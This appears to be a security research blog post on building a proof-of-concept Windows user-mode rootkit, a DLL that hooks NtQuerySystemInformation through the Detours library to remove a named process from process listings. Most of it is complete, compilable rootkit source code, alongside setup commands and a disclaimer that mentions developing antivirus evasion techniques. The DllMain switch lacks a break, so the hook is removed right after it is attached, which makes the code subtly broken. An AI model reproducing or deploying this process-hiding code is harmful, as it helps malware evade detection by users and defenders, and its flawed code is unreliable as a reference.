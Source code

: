 ```yaml
---
title: PoC Ring3 RootKit Development
published: 2025-10-25
description: PoC Ring3 (User Mode) RootKit Development
tags: [research, malware, rootkit, c++]
category: Malware Research
draft: false
lang: en
---
```


# PoC Ring3 (User Mode) RootKit Development

## GitHub Repo
::github{repo="therustymate/0x9C"}

## Disclaimer

This document and all associated materials are provided strictly for **legitimate security research, education, and authorized antivirus detection capability testing purposes only.**
The techniques and concepts described herein involve advanced software security, malware analysis, and development methods, and **any unauthorized use, reproduction, distribution, or malicious deployment against systems without explicit permission is strictly prohibited.**

By accessing and utilizing this material, you acknowledge and agree to comply with all applicable laws and regulations,
and to obtain proper authorization before conducting any security testing or research activities.

The author and affiliated parties **expressly disclaim all legal liability and responsibility for any misuse, unauthorized actions, or damages arising from the use of this information.**

Furthermore, this research was conducted to study current antivirus detection limitations, develop evasion techniques for educational purposes, and enhance cybersecurity expertise.
The disclosure of this technology is purely for advancing the security industry and academic research.

Therefore, all risks, legal responsibilities, and consequences resulting from the use or misuse of this document rest solely with the user.
The author and related parties are fully indemnified from any direct or indirect damages.

By reading or using this document, you are deemed to have accepted all the above conditions.

## How does user mode rootkit work?
A user-mode rootkit typically works by injecting a DLL (Dynamic Link Library) into the target process, hooking the APIs that the process calls, and removing specific information from the actual return values.
Rootkits mainly hide information about processes, network activity, files, the registry, etc., to avoid detection.

## How to hide process information?
The `NtQuerySystemInformation` API is a Windows native API that returns information about the processes present on the system.

```cpp
__kernel_entry NTSTATUS NtQuerySystemInformation(
  [in]            SYSTEM_INFORMATION_CLASS SystemInformationClass,
  [in, out]       PVOID                    SystemInformation,
  [in]            ULONG                    SystemInformationLength,
  [out, optional] PULONG                   ReturnLength
);
```

```cpp
NTSTATUS NTAPI Hooked_NtQuerySystemInformation(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```

`SystemInformation` (of type PVOID) returns information about processes.
You can cast it to the existing `PSYSTEM_PROCESS_INFORMATION` type and, from each process entry, read the process name via `ImageName.Buffer` (a `PWCHAR` inside a `UNICODE_STRING`).
Using that, you can filter out specific process names from the process list and return the filtered result.
So when a DLL-injected process calls `NtQuerySystemInformation`, it will not see those filtered process names.

## How to hook a function?
The `Detours` library is a Windows library that enables hooking specific functions. Using it, you can hook native APIs and modify their results or record (log) them.

```bash
vcpkg install detours
vcpkg integrate install
```

Using the `vcpkg` tool, you can automatically include C++ header files and library files in `Visual Studio 2022`. In the case of `Detours`, the header file is located at `detours/detours.h`.

```cpp
#include <detours/detours.h>
```

## How to make a user mode rootkit?
The completed DLL source code is as follows:

```cpp
#include "pch.h"
#include <detours/detours.h>
#include <Windows.h>
#include <winternl.h>
#include <Psapi.h>

#pragma comment(lib, "detours.lib")

using namespace std;

const wchar_t* TARGET_PROCESS = L"Notepad.exe";

typedef NTSTATUS(NTAPI* NtQuerySystemInformation_t)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
static NtQuerySystemInformation_t _NtQuerySystemInformation = (NtQuerySystemInformation_t)GetProcAddress(
    GetModuleHandle(L"ntdll.dll"),
    "NtQuerySystemInformation"
);

NTSTATUS NTAPI Hooked_NtQuerySystemInformation(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
) {
    NTSTATUS result = _NtQuerySystemInformation(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength
    );

    if (SystemInformationClass == 5 && result == 0 && SystemInformation != nullptr) {
        PSYSTEM_PROCESS_INFORMATION processInfo = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;
        PSYSTEM_PROCESS_INFORMATION prevInfo = nullptr;
        while (processInfo->NextEntryOffset || processInfo->UniqueProcessId) {
            bool hidden = false;
            if (processInfo->ImageName.Buffer != nullptr &&
                _wcsicmp(processInfo->ImageName.Buffer, TARGET_PROCESS) == 0) {
                hidden = true;
            }

            if (hidden && prevInfo != nullptr) {
                if (processInfo->NextEntryOffset == 0) {
                    prevInfo->NextEntryOffset = 0;
                }
                else {
                    prevInfo->NextEntryOffset += processInfo->NextEntryOffset;
                }
            }
            else {
                prevInfo = processInfo;
            }

            if (processInfo->NextEntryOffset == 0) break;
            processInfo = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)processInfo + processInfo->NextEntryOffset);
        }
    }

    return result;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourAttach(&(PVOID&)_NtQuerySystemInformation, Hooked_NtQuerySystemInformation);
        DetourTransactionCommit();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)_NtQuerySystemInformation, Hooked_NtQuerySystemInformation);
        DetourTransactionCommit();
    }
    return TRUE;
}
```

When handling the hooked function, iterate through the process entries using `NextEntryOffset`, compare `ImageName.Buffer` with the target process name, and if they match, manipulate `NextEntryOffset` to remove the entry from the list so it links directly to the next process.

## Conclusion
In conclusion, the user-mode rootkit is injected into the target process as a DLL. After injection it hooks `NtQuerySystemInformation`, examines `ImageName.Buffer` in the `PSYSTEM_PROCESS_INFORMATION` structure, and if it matches a process that should be hidden, it modifies `NextEntryOffset` to remove that process from the list and link directly to the next entry to prevent the process from being seen.
